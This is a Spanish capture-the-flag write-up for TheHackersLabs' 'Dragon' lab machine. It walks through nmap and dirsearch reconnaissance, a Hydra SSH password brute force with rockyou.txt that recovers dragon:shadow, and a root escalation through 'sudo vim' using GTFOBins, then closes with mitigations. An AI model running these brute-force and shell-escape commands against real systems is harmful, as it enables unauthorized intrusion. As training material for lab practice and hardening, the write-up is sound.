### Información General

| Campo          | Detalle         |
| -------------- | --------------- |
| **Máquina**    | Dragon          |
| **Plataforma** | TheHackersLabs  |
| **Dificultad** | Facil           |
| **SO**         | Linux (Ubuntu)  |
| **IP**         | 192.168.241.171 |
| **Fecha**      | 02/09/2026      |

### Resumen del Ataque

El reconocimiento con Nmap reveló únicamente SSH y un servicio web con Apache 2.4.58. La web principal no mostraba nada explotable a simple vista, pero el fuzzing de directorios descubrió una ruta oculta `/secret/` con una pista en forma de acertijo que apuntaba directamente a fuerza bruta contra el usuario `dragon` por SSH. Tras obtener credenciales válidas con Hydra y rockyou.txt, el acceso inicial permitió capturar la flag de usuario. La escalada de privilegios fue trivial gracias a una entrada `sudo -l` mal configurada que permitía ejecutar `vim` como root sin contraseña, técnica clásica documentada en GTFOBins.

### Técnicas Usadas

- Escaneo de puertos completo con Nmap (`-p-`, `-sS`, `--min-rate`)
- Enumeración de servicios y versiones (`-sC -sV`)
- Fuzzing de directorios web con dirsearch
- Fuerza bruta de credenciales SSH con Hydra + rockyou.txt
- Escalada de privilegios vía GTFOBins (`sudo vim`)

### Desarrollo

**1. Escaneo de puertos completo**

```
sudo nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 192.168.241.171
```



Solo dos puertos abiertos: SSH (22) y HTTP (80).

**2. Enumeración de versiones y scripts por defecto**

```
nmap -p 22,80 -sC -sV -oN allports 192.168.241.171
```



**3. Revisión de la web**

Acceso a `http://192.168.241.171` muestra una página de bienvenida temática con el mensaje:



Pista clara de que hay contenido oculto por descubrir mediante fuzzing.

**4. Fuzzing de directorios**

```
dirsearch -u http://192.168.241.171/ --exclude-status 403,404,500 -e php,txt,html
```



Se encuentra el directorio oculto `/secret/`.

**5. Contenido de /secret/**

La ruta contiene un acertijo dirigido al usuario "dragon":



Interpretación: el nombre de usuario ya es conocido (`dragon`) y hay que atacar por fuerza bruta la contraseña.

**6. Fuerza bruta SSH**

```
hydra -l dragon -P /usr/share/wordlists/rockyou.txt ssh://192.168.241.171 -t 4
```



Credenciales válidas: `dragon:shadow`.

**7. Acceso inicial y flag de usuario**

```
dragon@TheHackersLabs-Dragon:~$ whoami
```



```
dragon@TheHackersLabs-Dragon:~$ cat user.txt 
```



**8. Enumeración de usuarios con shell**

```
dragon@TheHackersLabs-Dragon:~$ grep bash /etc/passwd
```



**9. Enumeración de privilegios sudo**

```
dragon@TheHackersLabs-Dragon:~$ sudo -l
```



El usuario `dragon` puede ejecutar `vim` como root sin contraseña, un binario listado en GTFOBins como vector de escalada directa.

**10. Escalada de privilegios**

```
dragon@TheHackersLabs-Dragon:~$ sudo /usr/bin/vim -c ':!/bin/bash'
```

```
root@TheHackersLabs-Dragon:/home/dragon# whoami
```



**11. Flag de root**

```
root@TheHackersLabs-Dragon:~# cat root.txt
```



### Lecciones Aprendidas

- Los mensajes "ocultos" o acertijos en una web suelen ser pistas explícitas hacia el vector de ataque real (en este caso, el nombre de usuario para fuerza bruta SSH).
- Una contraseña presente en rockyou.txt sigue siendo, hoy en día, uno de los vectores de acceso inicial más efectivos si no hay políticas de bloqueo por intentos fallidos.
- `sudo -l` debe ser siempre uno de los primeros comandos tras obtener una shell; una entrada NOPASSWD sobre un binario tipo `vim`, `less`, `find`, etc. suele significar escalada inmediata vía GTFOBins.

### Medidas de Mitigación

- Implementar políticas de contraseñas robustas y bloqueo de cuenta tras intentos fallidos (fail2ban) para mitigar fuerza bruta SSH.
- Evitar exponer pistas o rutas ocultas indexables sin control de acceso adecuado.
- Restringir el uso de `sudo` a binarios estrictamente necesarios; nunca otorgar NOPASSWD sobre editores, paginadores o intérpretes que permitan escapar a una shell (ver listado de binarios peligrosos en GTFOBins).
- Aplicar el principio de mínimo privilegio y auditar periódicamente `sudo -l` en todos los usuarios del sistema.


